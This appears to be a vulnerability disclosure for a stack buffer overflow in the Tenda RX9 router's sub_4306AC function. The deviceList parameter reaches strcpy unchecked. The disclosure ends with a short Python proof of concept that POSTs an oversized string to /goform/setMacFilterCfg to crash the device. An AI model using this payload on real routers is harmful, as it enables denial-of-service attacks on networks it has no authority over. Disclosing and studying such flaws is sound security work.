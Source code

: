 # Tenda router sub_4306AC function stack overflow vulnerability

> vendor:Tenda
>
> product:RX9
>
> version:v1.0 v22.03.02.54
>
> type:Stack Overflow

## Vulnerability Description

Tenda RX9 v1.0 v22.03.02.54 were discovered to contain a stack overflow via the list parameter in the sub_4306AC function.

## Vulnerability Details

In the function, after V3 obtains the variable named "deviceList", it is called by the function sub_42F420 without processing, and then passed to the dangerous function strcpy without processing in the sub_42F420 function. The attacker can modify the variable in the post request. The parameter length of deviceList may cause a stack buffer overflow to achieve a denial of service attack.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/9525b077-8b27-4c46-b47c-b881c08473a1)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/f08c8cfb-dcad-4276-a425-5c0758ac2164)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/0f35ba7a-4d79-4750-bf5b-117770a5f8d4)


## POC

    import requests

    ip = "192.168.244.130"
    cyclic = b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\r"
    def exploit_formSetMacFilterCfg():
    url = f"http://{ip}/goform/setMacFilterCfg"
    data = {
        b'macFilterType':b'white',
        b'deviceList':cyclic
        }
    res = requests.post(url=url,data=data)
    print(res.content)

    exploit_formSetMacFilterCfg()


   

